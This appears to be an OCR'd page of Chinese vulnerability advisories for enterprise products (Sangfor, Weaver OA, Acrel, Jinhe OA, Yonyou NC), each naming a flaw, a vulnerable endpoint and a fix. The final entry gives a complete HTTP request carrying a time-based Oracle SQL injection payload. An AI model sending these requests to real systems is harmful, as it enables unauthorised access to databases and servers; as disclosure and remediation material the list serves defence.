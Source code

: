   
漏洞名称：  
深信服运维安全管理系统全版本命令执行漏洞  
  
漏洞描述；  
  
攻击者可利用未公开漏洞绕过认证，通过特定接口实现远程命令执行，获取服务器控制权限  
  
修复建议：  
  
1.立即联系厂商获取安全补丁；2.限制管理端口访问权限；  
  
  
漏洞名称：  
泛微OA全版本目录信息泄露  
  
漏洞描述：  
  
 jqueryFileTree.jsp目录信息泄露漏洞，  
攻击者通过dir参数遍历服务器目录导致敏感信息泄露  
  
修复建议：  
  
删除或重命名jqueryFileTree.jsp  
  
  
漏洞名称：  
安科瑞智能环保云平台  
  
漏洞描述：  
  
/getmonitorrealdata接口存在SQL注入漏洞，可获取数据库权限  
  
修复建议：  
  
部署SQL注入防护产品  
  
  
漏洞名称：  
金和OA全版本  
SQL注入漏洞  
  
漏洞描述：  
  
/C6/JHSoft.Web.DailyTaskManage/TaskTreeJsoN.aspx存在SQL注入漏洞  
  
修复建议:  
  
部署SQL注入防护产品  
  
  
漏洞名称：  
用友NC listUserSharingEvents 存在SQL注入  
  
漏洞描述：  
```
GET /portal/pt/oacoSchedulerEvents/listUserSharingEvents?agent=1')+AND+1=dbms_pipe.receive_message('RDS',5)--&pageId=login&sch_ed=2&sch_sd=1 HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
```  
  